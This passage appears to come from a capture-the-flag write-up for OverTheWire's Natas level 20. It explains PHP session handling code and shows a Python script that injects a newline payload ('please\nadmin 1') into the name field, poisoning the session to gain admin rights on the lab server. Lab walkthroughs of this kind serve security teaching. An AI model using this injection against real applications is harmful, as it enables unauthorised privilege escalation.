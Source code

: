    - Simple session save handler configuration and starting the session.



```php
      if(array_key_exists("name", $_REQUEST)) {
         $_SESSION["name"] = $_REQUEST["name"];
         debug("Name set to " . $_REQUEST["name"]);
      }
```

   - Checks if the key "name" exists in request and if so will change Session name equal to the Request name and then send a debugging message. 


```php
      print_credentials();

      $name = "";
      if(array_key_exists("name", $_SESSION)) {
         $name = $_SESSION["name"];
      }
```

   - Print credentials and set name variable to empty string. If the Session key of "name" exists then set name to the Session name. 



---
  

     
4. Steps taken (Session poisoning via injection):

   1. Basically the attack surface we're looking into is the way myWrite and myRead are working for this backend. It takes in the input straight and special characters like "newline" `\n` or `%0A` are both accepted. Since the input is taken in and separated into lines if were to sneak in an extra line that not only saves the `name` value but also an `admin` value and set it to 1 we could escalate privileges.
   
   2. The attack would be complete when we read from the stored values which is done line by line.

   ```python
      import requests

      username = 'natas20'
      password = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX' # input real password

      url = f"http://{username}.natas.labs.overthewire.org"
      session = requests.Session()

      response = session.get(url, auth = (username, password))
      print(response.text)
      print("="*80)

      response = session.post(url, data = {"name": "please\nadmin 1"}, auth = (username, password))
      print(response.text)
      print("="*80)

      response = session.get(url, auth = (username, password))
      print(response.text)
      print("="*80)
   ```
